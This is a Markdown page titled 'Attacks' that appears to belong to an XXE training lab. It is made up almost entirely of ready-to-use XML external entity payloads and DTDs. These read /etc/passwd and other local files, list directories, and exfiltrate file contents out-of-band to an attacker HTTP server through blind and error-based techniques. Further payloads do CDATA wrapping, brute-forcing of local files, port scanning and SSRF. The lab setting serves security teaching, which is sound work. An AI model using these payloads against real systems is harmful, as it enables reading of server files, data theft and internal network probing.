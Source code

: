 ```yaml
---
title: "Attacks"
weight: 4
---
```


## Basic XXE

### View Contents of File

Simple XXE to show the contents of a file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">]>

<todo>&xxe;</todo>
```

### Include File Contents in XML Document

This will include the contents of `/etc/hostname` into the XML document.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE todo [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>

<todo>
  <description>&xxe;</description>
  <category>XXE</category>
</todo>
```

### List Contents of Directory

This will work on Java

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "file:///etc/">]>

<todo>&xxe;</todo>
```

## Blind XXE

### Exfil Contents of File

#### DTD

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

#### Payload

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/external.dtd"> %xxe;
]>
```

### Error Based XXE

#### Contents of File - Path Error

##### DTD

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

##### Payload

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://localhost:5000/path_error.dtd">
    %ext;
]>
<message></message>
```

#### List Contents of Directory - Protocol Error

##### External DTD

```xml
<!ENTITY % file SYSTEM "file:///">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

##### Payload

```xml
<!DOCTYPE data [
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/dtds/payload.dtd" >
  %ext;
  %ent;
]>

<data>&data;</data>
```

## CDATA

### DTD

```xml
<!ENTITY % file SYSTEM "file:///home/vagrant/test_files/heart.txt">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

### Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/cdata.dtd">
  %ext;
]>

<name>&all;</name>
```

## Brute-force Local Files

### DTD

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

### Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/brute.dtd">
  %ext;
]>

<name></name>
```

## TCP Port Scan

### Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:21">]>

<doc>&xxe;</doc>
```

## SSRF

### Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:3333/secret.txt">]>

<doc>&xxe;</doc>
```
